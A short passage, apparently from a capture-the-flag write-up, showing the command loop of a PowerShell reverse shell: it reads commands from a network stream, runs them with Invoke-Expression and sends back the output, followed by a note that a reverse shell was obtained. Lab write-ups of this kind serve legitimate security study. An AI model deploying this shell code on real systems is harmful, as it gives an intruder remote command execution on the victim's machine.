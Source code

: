 ```powershell
	$StreamWriter.Write($String + 'H3K3R-SHELL[#]> ')
	$StreamWriter.Flush()
}

WriteToStream ''

while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
	$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
	
	$Output = try {
		Invoke-Expression $Command 2>&1 | Out-String
	} catch {
		$_ | Out-String
	}	
	
	WriteToStream ($Output)
}

$StreamWriter.Close()
```

We get a reverse shell now:

![Untitled](Freelancer%20ddb658cf8b564ba0b3c161a2c4e057cb/Untitled%2010.png)
